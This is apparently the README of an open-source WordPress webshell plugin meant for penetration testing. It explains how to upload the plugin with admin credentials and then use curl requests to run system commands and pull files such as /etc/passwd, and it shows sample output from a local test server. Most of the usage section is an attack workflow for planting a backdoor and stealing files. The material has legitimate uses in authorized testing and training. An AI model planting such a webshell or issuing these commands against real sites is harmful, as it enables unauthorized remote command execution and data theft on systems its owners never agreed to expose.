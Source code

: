# WordPress webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a WordPress website.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/WordPress-plugin-webshell">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for WordPress.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the WordPress website.

### Step 1: Upload the webshell plugin

First, login with admin rights on the WordPress website and go to "_Plugins --> Add New_" page, at http://127.0.0.1:10080/wordpress/wp-admin/plugin-install.php, and click on "Upload Plugin":

![](./.github/plugin_add_new.png)

Upload the plugin, and click on "_Activate the plugin_":

![](./.github/activate_plugin.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.



## References
 - https://developer.wordpress.org/plugins/intro/
